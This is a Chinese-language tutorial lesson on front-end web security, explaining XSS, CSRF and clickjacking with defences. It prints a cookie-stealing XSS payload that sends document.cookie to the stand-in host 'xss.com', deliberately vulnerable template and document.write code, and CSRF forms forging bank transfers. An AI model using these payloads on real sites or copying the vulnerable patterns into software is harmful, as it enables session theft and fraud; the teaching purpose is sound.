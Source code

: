 随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。

Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。

### 跨站脚本（Cross Site Scripting，XSS）

理论上跨站脚本的首字母缩写应该为"CSS"，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。

#### XSS 攻击示例

一般我们把 XSS 分为**反射型、存储型、DOM 型** 3 种类型。

反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。

下面通过一个简单的例子加以说明。

服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。

```java
<!-- ejs 模板 --> 
你搜索了：<%-search%>
// 服务端处理逻辑 
app.get('/reflection', function(req, res){ 
  res.render('reflection', { 
    search: req.query.search 
  }); 
})
```

比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。

```xml
<script> 
s=document.createElement('script'); 
s.src=`xss.com?cookie=${document.cookie}`; 
document.head.append(s) 
</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。

```js
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。

存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。

DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它不需要经过服务端。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。

```javascript
<script> 
  var search = location.search.replace('?search=', '') 
  document.write("你搜索了 :" + decodeURI(search)) 
</script>
```

#### XSS 防御手段

**参数校验**。对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。

**字符转义**。对于一些特殊符号，比如"\<""\>""\&"""""'""/"，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。

对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。

### 跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）

CSRF 攻击就是在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作。和 XSS 攻击方式相比，CSRF 并不需要直接获取用户信息，只需要"借用"用户的登录信息相关操作即可，隐蔽性更强。

#### CSRF 攻击示例

下面以一个示例来说明 CSRF 的攻击原理。

比如，用户 A 在银行有一笔存款，通过对银行的网站发送请求：http://bank.com/withdraw?amount=100\&to=B。

可以让 A 把 100 的存款转到 B 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，验证成功后代码用户 A 已经成功登录。

攻击者 C 就可以通过替换 URL 中的参数把钱转入自己的账户中，但这个请求必须由 A 发出。所以他先自己做一个网站，在网站中放入如下代码：

```java
<img src="http://bank.com/withdraw?amount=100&to=C" />
```

然后通过广告等方式诱使 A 来访问他的网站，当 A 访问该网站时，浏览器就会附带上 cookie 发出的转账请求。大多数情况下，该请求可能会失败，因为他要求 A 的认证信息。但是，如果 A 当时恰巧刚访问这个网站不久，他的浏览器与网站之间的 session 尚未过期，浏览器的 cookie 中含有 A 的认证信息。那么此时这个请求就会成功，钱将从用户 A 的账号转移到攻击者 C 的账号，而 A 对此毫不知情。

即使日后 A 发现账户钱少了，去银行查询转账记录，也只能发现确实有一个来自他本人的合法请求转移了资金，找不到被攻击的痕迹。

当然真实场景下不会通过 GET 请求去提交操作，而是采用 POST 请求。但即时如此，攻击者也可以在页面中嵌入隐藏表单并通过脚本来触发操作。

比如像下面的代码，创建了两个表单字段，分别为 amount 和 to，然后自动执行 JavaScript 脚本提交表单。

```xml
<form action="http://bank.com/withdraw" method="POST""> 
    <input type="hidden" name="amount" value="100" /> 
    <input type="hidden" name="to" value="C" /> 
</form> 
<script> document.forms[0].submit(); </script>
```

#### CSRF 防御手段

通过前面的例子可以看到 CSRF 大多来自第三方网站，所以浏览器会在请求头带上 Referer 字段，服务器可以判断 Referer 来拒绝不受信任的源发出的请求。

由于攻击者在大多数情况下利用 cookie 来通过验证，所以可以在请求地址中添加其他头部字段，比如 token，服务端只有接收到正确的 token 后才响应正确的内容。

攻击者是在不知情的情况下，自动发起恶意的请求，那么可以通过用户确认来防御攻击，比如加入图形或短信验证码让用户输入，确认该操作是用户本人发起的。但是加入验证码会影响用户的体验，所以验证码不能频繁使用。

### 点击劫持（C lickJacking ）

攻击者创建一个网页利用 iframe 包含目标网站，然后通过设置透明度等方式隐藏目标网站，使用户无法察觉目标网站的存在，并且把它遮罩在网页上。在网页中诱导用户点击特定的按钮，而这个按钮的位置和目标网站的某个按钮重合，当用户点击网页上的按钮时，实际上是点击目标网站的按钮。

#### ClickJacking 示例

下面通过两个简单的页面来进行演示说明。alert 页面上有一个按钮，点击时调用 alert() 函数。

```xml
<!-- alert.html --> 
<button onclick="alert('我被点击了!')">alert页面按钮</button>
```

clickjacking 页面上有一个没有绑定点击事件的按钮，同时在 firame 中引入 alert 页面，通过设置它的样式，让 alert 页面透明显示，并将其中的按钮与 clickjacking 页面的按钮位置重叠。

```xml
<!-- clickjacking.html --> 
<button>当前页面按钮</button> 
<iframe src="http://127.0.0.1:5501/24/views/alert.html" frameborder="0" style="opacity: 0.5;position:absolute;left: 0;top:0"></iframe>
```

当用户想点击 clickjacking 页面按钮时，实际上点击的却是 alert 页面按钮。

<Image alt="jdfw.gif" src="https://s0.lgstatic.com/i/image/M00/43/F3/Ciqc1F889IKAQVsdAACZjCTs01E806.gif"/>

#### ClickJacking 防御

通过例子可以看到 ClickJacking 的攻击原理主要是利用了 iframe，所以可以通过设置响应头部字段 X-Frame-Options HTTP 来告诉浏览器允许哪些域名引用当前页面。X-Frame-Options 的值有 3 个，具体如下。

* **DENY**：表示页面不允许在 iframe 中引用，即便是在相同域名的页面中嵌套也不允许，GitHub 首页响应头部使用的就是这个值。

* **SAMEORIGIN**：表示该页面可以在相同域名页面的 iframe 中引用，知乎网站首页响应头部使用的就是这个值。

* **ALLOW-FROM \[URL\]**：表示该页面可以在指定来源的 iframe 中引用。

### 总结

本课时主要介绍了 3 个最常见的前端安全问题，分别是 XSS、CSRF 和 ClickJacking。

XSS 攻击分为存储性、反射型、DOM 型，其中存储型危害较大，会存储到数据库中，导致每次加载页面的时候都会执行恶意代码；反射型则是利用服务端直接拼接字符串模板的原理进行攻击，而 DOM 型攻击更灵活，不需要向服务端发送请求即可实现。

CSRF 攻击原理是"借用"用户身份进行恶意操作，服务端可以通过 Referer 字段来判断请求发起方的源是否可信，从而拒绝不安全的域发出的请求。

ClickJacking 攻击方式则是通过 iframe 引用页面，采取遮罩的手段来让用户在不知情的情况下进行某些操作。所以可以通过设置响应头部字段 X-Frame-Options 来允许是否被其他页面引用到 iframe 中。

除了上面的防御手段，我们还可以用漏洞扫描工具（比如 [BeEF](https://beefproject.com/)）对网站进行测试，提前发现安全漏洞。

最后布置一道思考题：你在工作中还遇到过哪些安全问题？欢迎留言分享你的经历。
